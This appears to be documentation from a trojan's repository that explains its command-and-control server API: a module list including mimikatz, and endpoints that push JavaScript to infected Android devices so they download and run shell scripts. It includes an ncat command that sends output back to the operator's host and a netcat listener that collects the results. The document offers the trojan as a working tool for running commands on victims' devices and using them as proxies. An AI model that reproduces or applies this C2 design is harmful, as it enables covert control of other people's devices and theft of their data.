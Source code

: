 ```
	│
	├── misc
	│
	├── modules
	│   ├── discover.py
	│   ├── mimikatz.py
	│   ├── ports.py
	│   └── runCMD.py
	│
	└── threads
```

#### Endpoints

> :warning: The response of the API may differ depending on the platform of the device from which the trojan operate. the following part explores mainly the case of **Android**, because it's the most sophisticated due to the OS's restrictions.



+ __[GET]__ /checkupdate.js

When the client sends its first request to the endpoint `/checkupdate.js`, the server create a `genShell`'s object, which sets a unique local port for that device `self.lport = self.setPort()` and a thread id `self.threaduid = random.randint` in addition to other attributes. Then returns the appropriate JavaScript code (depending on the CPU/ABI) that will contain instructions to download, chmod and execute (main thread, or poolexec) some resources. As for the following requests it returns a JS code that will execute the pending tasks if there are any.

`runCMD` is a method of `genShell` that write the shell script we want the trojan to run into a file inside `/assets` to be downloaded later by the client, then uses netcat to listen for the response and pipe it into a file inside `/threads`

**Example**: Let say you want to use the target as a HTTP proxy, the API formulate the request as the following cmd:

```shell
echo -e "GET / HTTP/1.1\r\nHost: 192.168.1.1\r\nConnection: close\r\n\r\n" | {abspath_toolbox/ncat} {API_HOST_IP} {lport} -w 10;\r\n
```
then save it into `assets/runsh_{uid_task}.sh`, then depending whether the request came from StealthMode/BatteryBypass or not, `/checkupdate.js` gets the trojan to download the shell file and run it.
	
```python
>>> Popen("exec $(nc -l 0.0.0.0 -p {lport} -dN > {task_filename})" shell=True, close_fds=True, ...)
```


+ __[GET]__ /addtask

Using the appropriate token the admin can get a device to run a command via this endpoint, the server will describe this command as __pending__ which will impact the next response of `/checkupdate.js` to that device. Then it'll return a random generated id for this task.


+ __[GET]__ /pingtask

The combination of the task id generated by `/addtask` and the aforementioned thread id `threaduid` makes the name of the file inside `/threads` where the output of the command is saved. Once this endpoint is requested it checks whether `/threads/{threaduid}x{taskid}` exists, if so the server returns the content of the file otherwise it return 0.
